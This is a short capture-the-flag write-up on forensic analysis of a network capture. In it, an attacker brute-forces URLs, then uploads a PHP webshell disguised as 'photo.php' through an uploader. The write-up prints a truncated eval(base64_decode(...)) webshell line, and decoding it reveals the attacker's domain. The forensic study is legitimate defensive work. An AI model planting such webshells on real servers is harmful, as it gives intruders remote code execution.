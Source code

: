 # Webshell attack
In this CTF, our task is to analyze a network traffic capture of a server which has been infected. Our goal is to identify the malicious object and to get the attacker's domain.

**Disclaimer**: The purpose of this document is purely educational. It is intended to demonstrate cybersecurity techniques within a controlled environment, such as a Capture The Flag (CTF) competition. Any misuse of the information provided herein for unauthorized or illegal activities is strictly prohibited and is not the responsibility of the author. Moreover, I believe that I am not violating any rules by uploading these challenge solutions. However, if you find any content here that you think violates any rules, please contact me, and I will address the issue promptly.

When we open the capture we can see how the attacker is maybe trying to guess URLs through brute force.

![Url discovery](url_discovery.png)

As we continue analyzing the capture, we notice a POST request to an uploader.

![Upload](POST.png)

![Uploader](uploader.png)

This request uploads a file named **photo.php**, which, as you may guess, is not a photo but a file containing PHP code. Here, the attacker is trying to upload PHP code to the server in order to execute it. This is part of the code uploaded:
```
<?php eval(base64_decode(ZXZhbChiYXNlNjRfZGV...));?>
```

The uploaded code is essentially running base64-encoded commands. To further analyze the uploaded code, we need to decode it. Once we do this, we quickly discover the target domain.

![flag](flag.png)
